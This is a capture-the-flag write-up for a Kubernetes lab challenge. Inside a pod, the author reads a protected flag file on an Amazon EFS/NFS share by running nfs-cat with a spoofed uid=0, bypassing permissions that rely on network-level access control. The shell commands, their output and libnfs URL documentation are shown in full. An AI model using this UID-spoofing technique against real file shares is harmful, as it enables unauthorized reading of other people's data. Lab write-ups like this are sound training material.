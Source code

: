 ```yaml
---
tags:
  - Kubernetes
  - EFS
title: K8S LAN Party - Exposed File Share
description: The problem of old-school network file shares in the cloud
reference: https://k8slanparty.com/challenge/3
---
```


## Challenge

The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was **only network-based**.

## Solution

### 1. check what is mounted in the pod

- found `/efs` is mounted in the pod.
- `/efs` is an EFS file system. EFS is a fully managed, elastic, shared file system that can be mounted on Amazon EC2 instances.

```
player@wiz-k8s-lan-party:~$ df
Filesystem                                                1K-blocks    Used        Available Use% Mounted on
overlay                                                   314560492 8889008        305671484   3% /
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ 9007199254739968       0 9007199254739968   0% /efs
tmpfs                                                      62022172      12         62022160   1% /var/run/secrets/kubernetes.io/serviceaccount
tmpfs                                                         65536       0            65536   0% /dev/null
```

### 2. Check the `/efs` directory

found the `flag.txt` but we dont have the permission to read it.

```
player@wiz-k8s-lan-party:/efs$ cat flag.txt 
cat: flag.txt: Permission denied
player@wiz-k8s-lan-party:/efs$ ls -alt
total 8
drwxr-xr-x 1 player player   51 Jan  1 13:01 ..
---------- 1 daemon daemon   73 Mar 11  2024 flag.txt
drwxr-xr-x 2 root   root   6144 Mar 11  2024 .
```

### 3. Get more information about the EFS mount

```
player@wiz-k8s-lan-party:/efs$ mount | grep efs
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.48.9,local_lock=none,addr=192.168.124.98)
```

### 4. Try to mount the EFS file system in the new directory

Failed.

```
player@wiz-k8s-lan-party:~$ mount -t efs -o tls fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ ~/efs
mount: /home/player/efs: must be superuser to use mount.
```

### 5. Found some nfs tools in the `/usr/bin` directory

```
player@wiz-k8s-lan-party:/usr/bin$ ls | grep nfs
nfs-cat
nfs-cp
nfs-ls
```

### 6. Try `nfs-cat` to read the `flag.txt` file


```
player@wiz-k8s-lan-party:/usr/bin$ nfs-cat "nfs://192.168.124.98//flag.txt?version=4.1&uid=0"
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```

> Note: we have to quote the URL with double quotes, otherwise the `uid=0` part of the URL will not be treated as part of the URL.

URL-FORMAT:

```
URL-FORMAT:
===========
Libnfs uses RFC2224 style URLs extended with some minor libnfs extensions.
The basic syntax of these URLs is :

nfs://[<username>@]<server|ipv4|ipv6>[:<port>]/path[?arg=val[&arg=val]*]

Special characters in 'path' are escaped using %-hex-hex syntax.

For example '?' must be escaped if it occurs in a path as '?' is also used to
separate the path from the optional list of url arguments.

Example:
nfs://127.0.0.1/my?path/?version=4
must be escaped as
nfs://127.0.0.1/my%3Fpath/?version=4

Arguments supported by libnfs are :
 tcp-syncnt=<int>  : Number of SYNs to send during the session establish
                     before failing setting up the tcp connection to the
                     server.
 uid=<int>         : UID value to use when talking to the server.
                     default it 65534 on Windows and getuid() on unixen.
 gid=<int>         : GID value to use when talking to the server.
```

Refs:

1. https://github.com/sahlberg/libnfs
2. https://www.rfc-editor.org/rfc/rfc2224.html
